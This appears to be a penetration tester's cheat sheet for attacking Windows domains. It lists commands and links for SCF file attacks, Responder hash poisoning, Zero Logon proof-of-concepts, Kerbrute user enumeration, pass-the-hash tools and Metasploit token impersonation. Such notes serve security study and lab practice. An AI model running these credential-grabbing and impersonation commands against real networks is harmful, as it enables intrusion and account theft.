 ## SCF attack: malicious file that trigger multicats request for another computers. Responder needed.
**Attack guide**: [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/].
## LLMNR & NBT-NS POISONING AND CREDENTIAL ACCESS USING RESPONDER
**Run responder/ NTLMv2 hash grabbing**: responder -I [interface] -wF -v
## CONNECT TO RDP
xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP
## Zero Logon    
**Testing script https://github.com/SecuraBV/CVE-2020-1472    
**PoC https://github.com/dirkjanm/CVE-2020-1472    
## Windows user enumeration with Kerbrute    
/kerbrute_linux_amd64 userenum --dc [IP] -d [domain name] usernames.txt    
## CVE-2019-6714 BlogEngine.NET    
**https://blog.gdssecurity.com/labs/2019/3/28/remote-code-execution-in-blogenginenet.html**    
## Pass the HASH
**Grab local hashes**: secretdump.py    
psexec.py    
crackmapexec    
wmiexec        
evil-winrm    
## Token Impersonation    
**Delegate**: creating for logging into a machine or RDP.    
**Impersonate**: "non-interactive", such as attachind network drive or a domain logon script.    

**Metasploit: Incognito**
load_incognito //load module.    
list_tokens -u //list tokens for users.    
impersonate_token domain\\username //exploit.    


